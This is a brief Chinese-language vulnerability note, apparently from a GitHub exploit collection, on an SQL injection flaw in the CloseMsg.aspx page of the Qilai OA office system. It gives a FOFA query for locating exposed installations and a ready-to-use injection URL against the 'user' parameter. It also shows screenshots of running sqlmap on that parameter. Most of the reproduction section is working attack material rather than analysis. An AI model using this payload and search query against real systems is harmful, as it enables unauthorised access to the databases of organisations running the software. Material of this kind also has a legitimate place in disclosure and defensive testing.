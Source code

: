 # 启莱OA CloseMsg.aspx SQL注入漏洞

## 漏洞描述

启莱OA CloseMsg.aspx文件存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
启莱OA
```

## FOFA

```
app="启莱OA"
```

## 漏洞复现

登录页面如下

存在SQL注入的文件为 CloseMsg.aspx

```plain
http://xxx.xxx.xxx.xxx/client/CloseMsg.aspx?user=' and (select db_name())>0--&pwd=1
```

![qilai-3-1](https://typora-1308934770.cos.ap-beijing.myqcloud.com/qilai-3-1.png)

使用SQLmap对参数 user 进行注入

![qilai-3-2](https://typora-1308934770.cos.ap-beijing.myqcloud.com/qilai-3-2.png)
